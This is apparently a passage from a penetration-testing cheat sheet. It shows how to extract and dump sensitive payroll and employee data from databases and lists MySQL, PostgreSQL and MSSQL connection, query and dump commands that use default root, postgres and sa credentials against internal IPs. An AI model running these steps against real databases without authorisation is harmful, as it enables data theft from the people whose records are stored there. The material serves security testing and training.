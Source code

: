 ```bash
mysql> SHOW TABLES;

# 5. Extract sensitive data
mysql> SELECT * FROM employees;
mysql> SELECT * FROM salaries WHERE salary > 100000;

# 6. Dump database
mysqldump -h 192.168.1.50 -u root payroll > payroll.sql
```

## Manual Connection Commands

### MySQL
```bash
# Connect
mysql -h 192.168.1.50 -u root -p

# One-liner query
mysql -h 192.168.1.50 -u root -ppassword -e "SHOW DATABASES"

# Dump database
mysqldump -h 192.168.1.50 -u root -ppassword dbname > dump.sql

# Import
mysql -h 192.168.1.50 -u root -ppassword dbname < dump.sql
```

### PostgreSQL
```bash
# Connect
psql -h 192.168.1.51 -U postgres

# List databases
psql -h 192.168.1.51 -U postgres -l

# Connect to specific database
psql -h 192.168.1.51 -U postgres -d dbname

# Dump database
pg_dump -h 192.168.1.51 -U postgres dbname > dump.sql

# Import
psql -h 192.168.1.51 -U postgres dbname < dump.sql
```

### MSSQL
```bash
# Connect (sqlcmd)
sqlcmd -S 192.168.1.53 -U sa -P password

# List databases
sqlcmd -S 192.168.1.53 -U sa -P password -Q "SELECT name FROM sys.databases"

# Query
sqlcmd -S 192.168.1.53 -U sa -P password -d dbname -Q "SELECT * FROM table"

# Python (pymssql)
import pymssql
conn = pymssql.connect('192.168.1.53', 'sa', 'password', 'dbname')
```

